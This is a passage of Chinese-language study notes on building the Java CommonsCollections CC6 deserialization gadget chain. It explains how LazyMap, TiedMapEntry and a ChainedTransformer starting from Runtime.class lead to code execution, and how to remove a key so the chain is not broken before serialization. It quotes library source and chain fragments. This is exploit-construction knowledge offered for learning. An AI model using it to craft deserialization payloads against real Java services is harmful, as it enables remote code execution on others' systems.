 而map在序列化时会被序列化，在反序列化时map里面有了key，if表达式为假，不会执行chainedTransformer.transform，利用链断了。

解决这个问题，在put后序列化之前把lazyMap map中对应的key删掉就好了，详情参考[Java反序列化CommonsCollections篇(二)-最好用的CC链_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1yP4y1p7N7/?spm_id_from=333.788&vd_source=686636e30f91f8a12e28751943870859)

**虽然map是用transient修饰的，但是在LazyMap中通过自定义 writeObject 和 readObject 方法将map序列化。**

```java
    private void writeObject(ObjectOutputStream out) throws IOException {
        out.defaultWriteObject();
        out.writeObject(map);
    }
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        map = (Map) in.readObject();
    }

    //-----------------------------------------------------------------------
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

# 补充2

看下后半个链

```java
Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer); // Map Transformer

TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap, 1); //Map key
```

TiedMapEntry.getValue 调用 LazyMap.get(1)

```java
    public Object getValue() {
        return map.get(key);
    }
```

之后调用factory.transform(key)，也就是chainedTransformer.transform(1)。

之前我们这里1是随便写的值，因为chainedTransformer的Transformers数组的第一个元素是new ConstantTransformer(Runtime.class)，ConstantTransformer.transform(任意值)==Runtime.class。

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);  //chainedTransformer.transform(1)
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
